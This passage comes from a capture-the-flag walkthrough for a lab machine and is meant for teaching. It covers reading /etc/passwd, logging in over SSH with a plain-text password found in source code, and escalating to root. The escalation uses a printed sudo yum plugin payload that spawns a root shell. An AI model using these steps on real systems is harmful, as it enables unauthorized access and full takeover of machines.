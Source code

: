 In the file you will find a password stored in plain text.

Also a good idea is to see if you can read the /etc/passwd file to see the current users on the machine.

Now with the users discovered we can try and see if we can access the SSH with the found user **j[REDACTED]**. We can see that we can login with the discovered user and password to the machine with SSH.

```sh
ssh USER@10.10.1.10
USER@10.10.1.10's password: 
Last login: Tue Jan  5 15:03:32 2021 from ip-10-9-166-168.eu-west-1.compute.internal
USER@dailybugle ~]$ pwd
/home/jjameson
USER@dailybugle ~]$ ls
user.txt
USER@dailybugle ~]$ cat user.txt
```

With this you get the *user.flag* and the answer to the third question in Task 2.

Now it's time for the final step, to escalate our privileges as root.

As always, use `id` to see to which groups you belong to find a way to exploit what privileges the groups offer.

You can see that the user does not belong to any interesting group. Next do `sudo -l` to check which programs you can run as sudo

```sh
User USER may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

We can see that we can use yum as sudo without requiring us to enter the users password.

This is excellent as you can find on GTFObins (https://gtfobins.github.io/) on how to get an interactive root shell with yum.

Simply follow the instructions (https://gtfobins.github.io/gtfobins/yum/)

```sh
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
